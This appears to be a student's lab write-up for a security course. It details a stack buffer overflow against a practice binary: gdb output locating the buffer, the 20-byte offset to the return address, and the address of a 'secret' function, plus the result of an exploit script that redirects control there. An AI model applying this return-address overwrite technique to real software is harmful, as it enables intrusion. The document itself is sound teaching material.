 # Buffer Starting Address
The buffer address is calculated and stored into %eax at:

0x080497f5 <+21>: lea -0x10(%ebp), %eax

From which, we find the buffer address as: 0xffffd198

# Buffer Offset from Frame Pointer
The buffer is located at: ebp - 0x10
The return address is located at: ebp + 4
Therefore, the total offset from the start of the buffer to the return address is: (ebp + 4) - (ebp - 0x10) = 0x14 = 20 bytes


Buffer offset from frame pointer = 16 bytes
Buffer offset from return address = 20 bytes

# Return Address of the Secret Function

Secret function return address is: 0x080497b5

found by the following command and output:

(gdb) p &secret
$1 = (void (*)()) 0x080497b5 <secret>

#First assembly instruction of secret function

0x080497b5 <+0>:     push   %ebp

# Output

(.venv) ubuntu@netsec-vm:~/PA3/release/practice$ python3 exp-practice.py | ./vuln
> AAAAAAAAAAAAAAAAaaaa��
>> you have found the secret function
Segmentation fault (core dumped)


screenshot also included in the submission folder
